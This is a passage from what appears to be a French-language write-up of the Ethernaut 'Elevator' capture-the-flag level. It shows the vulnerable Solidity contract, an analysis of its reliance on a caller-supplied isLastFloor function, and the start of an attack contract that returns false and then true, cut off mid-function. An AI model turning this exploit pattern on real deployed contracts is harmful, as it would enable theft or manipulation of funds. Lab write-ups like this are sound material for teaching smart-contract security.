 

---

## 11 - Elevator

---

> **TL;DR**
>
> Contrôler une fonction pour modifier le cheminement.

This elevator won't let you reach the top of your building. Right?

##### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```javascript
pragma solidity ^0.5.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Analyse

Notre objectif est de mettre `top` à la valeur `true`. Pour cela, il faut  que le premier appel à  `building.isLastFloor(_floor)` retourne `false` puis le second appel renvoi `true`.

Pour cela, nous allons simplement créer notre propre contract `Building` et redéfinir la fonction `isLastFloor()` comme expliqué précédemment.

### Attaque

```javascript
contract Building {
    
    Elevator public object;
    bool already = false;
    
    function go(address addr) public payable {
        object = Elevator(addr);
        object.goTo(2);
    }
    
    function isLastFloor(uint floor) public returns (bool) {
        if (already == false) {
            already = true;
            return false;
        } else {
```